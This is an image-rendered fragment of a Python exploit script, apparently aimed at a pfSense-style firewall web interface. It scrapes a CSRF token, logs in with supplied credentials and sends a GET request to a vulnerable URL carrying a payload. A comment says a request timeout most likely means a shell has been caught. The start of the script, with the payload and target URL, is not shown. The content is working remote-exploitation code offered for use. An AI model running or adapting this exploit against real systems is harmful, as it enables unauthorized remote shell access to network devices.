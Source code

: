 ```python
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)
	
	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]
	
except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")				
		except:
			print("Exploit completed")
		
```
